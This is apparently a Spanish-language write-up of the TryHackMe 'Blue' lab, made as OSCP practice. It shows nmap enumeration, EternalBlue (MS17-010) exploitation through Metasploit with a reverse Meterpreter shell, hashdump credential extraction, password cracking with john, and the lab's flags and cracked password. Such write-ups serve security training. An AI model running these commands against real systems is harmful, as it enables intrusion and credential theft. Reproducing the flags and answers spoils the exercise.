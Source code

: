# 💻 TryHackMe - Blue

> 💣 Explotación de MS17-010 (EternalBlue) en Windows 7 SP1
> 
> 
> Parte del laboratorio ofensivo de preparación OSCP de **igneosec**
> 

---

## 📟 Información general

- **Plataforma**: TryHackMe
- **Nombre de la máquina**: Blue
- **Dirección IP**: 10.10.32.225
- **Sistema operativo**: Windows 7 Professional SP1
- **Dificultad**: Fácil
- **Acceso**: Explotación de SMBv1 (MS17-010)

---

## 🔍 Enumeración

### 🔹 Escaneo de puertos

```bash
nmap -sS -v -n -p- -oN firstscan --min-rate=5000 10.10.32.225 -Pn
```

Puertos detectados:

- 135/tcp → msrpc
- 139/tcp → netbios-ssn
- 445/tcp → microsoft-ds
- 3389/tcp → ms-wbt-server (RDP)
- 49152–49159/tcp → msrpc (puertos dinámicos relacionados con DCOM/RPC)

---

### 🔹 Detección de versiones y servicios

```bash
nmap -sCV -p135,139,445,3389,49152,49153,49154,49158,49159 -oN targetscan 10.10.32.225
```

Resultados clave:

- OS: Windows 7 Professional SP1
- Workgroup: WORKGROUP
- RDP activo (certificado CN=Jon-PC)
- SMB sin message signing
- Nombre de host: JON-PC

---

## 🫠 Enumeración últil

- Confirmada vulnerabilidad MS17-010 (EternalBlue)
- SMB accesible como `guest`
- Usuarios detectados (vía hashdump):
    - Administrator (500)
    - Jon (1000)
    - Guest (501)

---

## 🎯 Explotación

### 🔥 Confirmar vulnerabilidad

```bash
nmap --script smb-vuln-ms17-010 -p445 10.10.32.225
```

Resultado:

```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
CVE: CVE-2017-0143
```

---

### 💀 Intento sin Metasploit

```bash
python eternalblue_exploit7.py 10.10.32.225 shellcode/sc_all.bin
```

⚠️ El exploit falló debido a problemas de conexión o shellcode incorrecto. El puerto local también estaba en uso (conflicto con el handler).

---

### ✅ Explotación con Metasploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.32.225
set LHOST 10.21.164.206
run
```

> Se obtiene sesión Meterpreter con privilegios NT AUTHORITY\SYSTEM
> 

---

## 📦 Post-Explotación

### 🔑 Hashdump

```bash
meterpreter > hashdump
```

Hashes extraídos:

- Jon: `aad3b4... : ffb43f0de35be4d9917ac0cc8ad57f8d`
- Administrator / Guest: hashes vacíos (`31d6cfe...`)

### ⚡️ Crackeo de contraseña

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Resultado: **alqfna22**

---

## 🏁 Flags encontradas

### ✅ Flag 1 — Acceso inicial

- **Ruta**: `C:\\flag1.txt`
- **Contenido**: `flag{access_the_machine}`

### ✅ Flag 2 — SAM database

- **Ruta**: dump de `hashdump` o `C:\\Windows\\System32\\config\\SAM`
- **Contenido**: `flag{sam_database_elevated_access}`

### ✅ Flag 3 — Documentos sensibles

- **Ruta**: `C:\\Users\\Jon\\Documents\\flag3.txt`
- **Detectada desde**: `.lnk` en `AppData\\Roaming\\Microsoft\\Windows\\Recent`
- **Contenido**: `flag{admin_documents_can_be_valuable}`

---

## 📚 Lecciones aprendidas

- Reforcé el ciclo completo: escaneo → identificación → explotación → post-explotación.
- Uso efectivo de herramientas clave: `nmap`, `john`, `msfvenom`, `meterpreter`.
- Aprendí a extraer información desde `.lnk` y rutas no evidentes.
- Confirmé la importancia de intentar varios caminos cuando un exploit falla.

---

📄 Writeup finalizado.

💡 Parte del repositorio ofensivo de [**igneosec**](https://github.com/igneosec).